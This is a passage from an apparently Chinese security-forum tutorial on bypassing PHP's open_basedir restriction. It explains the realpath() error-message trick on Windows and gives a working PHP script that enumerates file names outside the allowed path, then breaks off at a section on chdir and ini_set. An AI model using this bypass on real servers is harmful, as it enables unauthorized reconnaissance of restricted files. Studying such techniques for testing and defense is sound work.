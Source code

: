 [![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-9d48b18d870664dec859f15215ed0a7eed5592b0.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-9d48b18d870664dec859f15215ed0a7eed5592b0.png)

利用realpath列目录
-------------

环境要求:Windows

realpath()返回规范化的绝对路径名,它可以去掉多余的../或./等跳转字符，能将相对路径转换成绝对路径。

```php
realpath(string $path): string|false
```

bypass原理:  
与上面说到的两种方式类似。在开启了open\_basedir的情况下，如果我们传入一个不存在的文件名，会返回false，但是如果我们传入一个不在open\_basedir里的文件的话，他就会返回`file is not within the allowed path(s)`，有点像盲注,基于报错来判断文件名。

脚本入下:

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'D:/5E/5EClient/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) {
        $file = $dir . $chars[$i] . '<><';
        realpath($file);
}
function isexists($errno, $errstr)
{
        $regexp = '/File\((.*)\) is not within/';
        preg_match($regexp, $errstr, $matches);
        if (isset($matches[1])) {
                printf("%s <br/>", $matches[1]);
        }
}
?>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b82c2a4bc7a197b24d64e458b05f70ab3a16a461.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b82c2a4bc7a197b24d64e458b05f70ab3a16a461.png)

利用chdir与ini\_set
----------------

`chdir`将工作目录切换到指定的目录,函数原型为

```php
chdir(string $directory): bool
```
